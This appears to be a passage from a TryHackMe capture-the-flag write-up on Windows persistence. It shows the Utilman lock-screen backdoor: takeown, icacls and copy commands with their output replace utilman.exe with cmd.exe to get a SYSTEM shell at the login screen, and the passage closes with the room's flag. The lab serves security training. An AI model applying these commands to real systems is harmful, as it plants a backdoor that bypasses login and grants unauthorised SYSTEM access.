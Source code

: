 ## Utilman

Utilman is a built-in Windows application used to provide Ease of Access options during the lock screen:

![utilman](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/73c7698a015de5a988fd815ff3e41473.png)

When we click the ease of access button on the login screen, it executes `C:\Windows\System32\Utilman.exe` with SYSTEM privileges. If we replace it with a copy of `cmd.exe`, we can bypass the login screen again.

To replace `utilman.exe`, we do a similar process to what we did with `sethc.exe`:

```shell-session
C:\> takeown /f c:\Windows\System32\utilman.exe

SUCCESS: The file (or folder): "c:\Windows\System32\utilman.exe" now owned by user "PURECHAOS\Administrator".

C:\> icacls C:\Windows\System32\utilman.exe /grant Administrator:F
processed file: C:\Windows\System32\utilman.exe
Successfully processed 1 files; Failed processing 0 files

C:\> copy c:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
Overwrite C:\Windows\System32\utilman.exe? (Yes/No/All): yes
        1 file(s) copied.
```

To trigger our terminal, we will lock our screen from the start button:

![lock session](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/1f94b28361ffebbf70d280755821bc12.png)

And finally, proceed to click on the "Ease of Access" button. Since we replaced `utilman.exe` with a `cmd.exe` copy, we will get a command prompt with SYSTEM privileges:

![backdoored utilman](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/0fe1901296108241e2700abf87fa6a27.png)

![THM flag](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/362875749378007cc447a2e47d476c9b.png)

From your newly obtained terminal, execute `C:\flags\flag15.exe` to get your flag


Once we do all steps, when we click on the utilman, we will get our shell:

![](../images/Pasted%20image%2020250516115028.png)

Let's get our flag:

![](../images/Pasted%20image%2020250516115121.png)

```
THM{THE_LOGIN_SCREEN_IS_MERELY_A_SUGGESTION}
```

# Persisting Through Existing Services
---
